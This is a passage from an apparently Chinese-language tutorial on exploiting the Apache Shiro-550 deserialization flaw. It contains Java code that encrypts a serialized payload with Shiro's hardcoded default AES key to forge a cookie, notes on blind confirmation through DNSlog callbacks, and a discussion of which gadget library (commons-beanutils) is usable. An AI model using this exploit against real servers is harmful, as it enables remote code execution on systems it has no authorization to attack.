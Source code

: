 对字节码编码

```java
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.nio.file.Files;
import java.nio.file.Paths;

public class ShiroEncode550 {
    public static void main(String []args) throws Exception {
        byte[] payloads = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\Test\\ser.bin"));
        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```



注意一个域名只能用一次，比如你的域名为ivtfbe.dnslog.cn，可以第一个包发1.ivtfbe.dnslog.cn，第二个发2.ivtfbe.dnslog.cn

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240805171035575.png)

盲打成功：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240805162346628.png)



## Commons-collections

尽管我们在依赖库看到了commons-collections:3.2.1的依赖

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240803190638939.png)

在maven依赖重复按ctrl+"+"全部展开，搜索找到commons-collections的依赖。但是标注了为test

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240805174000684.png)

> 依赖包有依赖范围，在pom.xml `<dependencies>`标签下有`<scope>`依赖范围声明。没有的默认值为compile
>
> compile: 表示依赖库将被包含在编译、测试和运行时环境中。
> test: 表示依赖库仅在测试阶段使用，不会被打包到最终的应用程序中。
> provided: 类似于test，但在某些情况下（如Web应用服务器提供的类库），该依赖在运行时环境中是可选的。
> runtime: 表示依赖库在运行时需要，但不需要在编译时存在。
> system: 类似于provided，但是需要显式地提供一个系统路径指向依赖库。

那我们就算找到了反序列化入口，怎么利用呢？

ysoserial给出的是commons-beanutils。且为compile依赖

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240803191001874.png)
